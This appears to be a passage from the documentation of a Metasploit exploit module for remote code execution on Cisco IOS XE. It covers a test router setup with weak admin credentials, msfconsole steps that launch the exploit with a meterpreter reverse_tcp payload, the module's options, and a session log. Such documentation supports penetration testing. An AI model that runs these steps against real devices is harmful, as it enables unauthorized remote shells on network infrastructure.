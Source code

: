     Router(config)#ip http server
    router(config)#ip http secure-server
    router(config)#ip http authentication local
    router(config)#username admin privilege 15 secret qwerty
    router(config)#exit
    Router#copy running-config startup-config
    ```
  * You should now be able to access the WebUI via https://TARGET_IP_ADDRESS/webui and login with admin:qwerty

## Verification Steps
1. Start msfconsole
2. `use exploit/linux/misc/cisco_ios_xe_rce`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `set target 0`
5. `set PAYLOAD cmd/linux/http/x64/meterpreter/reverse_tcp`
6. `check`
7. `exploit`

## Options

### CISCO_VRF_NAME
We allow a user to specify the VRF name to route traffic for the payloads network transport. The default of
'global' should work, but exposing this as an option will allow for usage in more complex network setups.
A user could leverage the auxiliary module auxiliary/admin/http/cisco_ios_xe_cli_exec_cve_2023_20198 to
inspect a devices configuration to see an appropriate VRF to use.

### CISCO_CMD_TIMEOUT
We may need to try and execute a command a second time if it fails the first time. This option is the maximum
number of seconds to keep trying.

## Scenarios
To support a broad set of available payloads, we support both a Linux target and a Unix Target (IOS XE is Linux based).
This allows for native Linux payloads to be used, but also payloads like Python meterpreter or a Bash shell.

### Linux Command (IOS XE 17.3.2)

```
msf exploit(linux/misc/cisco_ios_xe_rce) > set RHOSTS 192.168.86.113
RHOSTS => 192.168.86.113
msf exploit(linux/misc/cisco_ios_xe_rce) > set target 0
target => 0
msf exploit(linux/misc/cisco_ios_xe_rce) > set payload cmd/linux/http/x64/meterpreter/reverse_tcp
payload => cmd/linux/http/x64/meterpreter/reverse_tcp
msf exploit(linux/misc/cisco_ios_xe_rce) > show options

Module options (exploit/linux/misc/cisco_ios_xe_rce):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   CISCO_CMD_TIMEOUT  30               yes       The maximum timeout (in seconds) to wait when trying to execute a command.
   CISCO_VRF_NAME     global           yes       The virtual routing and forwarding (vrf) name to use. Both 'fwd' or 'global' have been tested to work.
```